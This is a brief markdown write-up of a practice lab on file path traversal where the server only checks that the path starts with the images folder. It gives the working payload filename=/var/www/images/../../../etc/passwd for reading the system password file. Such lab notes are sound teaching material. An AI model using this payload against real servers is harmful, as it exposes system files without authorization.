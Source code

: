 # Lab: File path traversal, validation of start of path

## Ananlsis: Sometimes it will expect you to start at the base folder. 

/image?filename=/var/www/images

filename=/var/www/images/../../../etc/passwd

## Payload: The payload is the same as our description so this one should be easy.

image?filename=/var/www/images/../../../etc/passwd 